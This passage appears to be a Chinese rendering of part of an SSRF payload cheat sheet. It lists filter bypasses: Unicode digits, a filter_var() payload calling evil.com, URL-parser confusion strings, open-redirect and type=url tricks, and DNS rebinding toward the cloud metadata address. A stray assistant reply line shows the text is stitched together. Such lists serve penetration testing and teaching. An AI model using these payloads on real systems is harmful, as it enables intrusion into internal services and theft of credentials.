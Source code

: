 ### 使用Unicode绕过

在某些语言中（如.NET、Python 3），正则表达式默认支持Unicode。
`\d` 包括 `0123456789`，但也包括 `๐๑๒๓๔๕๖๗๘๙`。

### 绕过 filter_var() php函数

```powershell
0://evil.com:80;http://google.com:80/ 
```



根据您提供的文档内容，以下是相关内容的整理：

### 针对弱解析器的绕过策略

作者：Orange Tsai ([Blackhat A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf))

```powershell
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
```

![弱解析器图示](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/Images/WeakParser.jpg?raw=true)

### 使用重定向绕过

[通过开放重定向绕过SSRF过滤器](https://portswigger.net/web-security/ssrf#bypassing-ssrf-filters-via-open-redirection)

```powershell
1. 在白名单主机上创建一个页面，该页面将请求重定向到SSRF目标URL（例如192.168.0.1）
2. 启动指向vulnerable.com/index.php?url=http://YOUR_SERVER_IP的SSRF
vulnerable.com将获取YOUR_SERVER_IP，然后重定向到192.168.0.1
3. 您可以使用响应代码[307](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/307)和[308](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/308)来在重定向后保留HTTP方法和主体。
```

### 使用type=url绕过

```powershell
将"type=file"更改为"type=url"
在文本字段中粘贴URL并按回车
利用此漏洞，用户可以从任何图像URL上传图像=触发SSRF
```

### 使用DNS重绑定（TOCTOU）绕过

```powershell
创建一个在两个IP之间切换的域名。http://1u.ms/为此目的而存在。
例如，要在1.2.3.4和169.254-169.254之间轮换，请使用以下域名：
make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
```
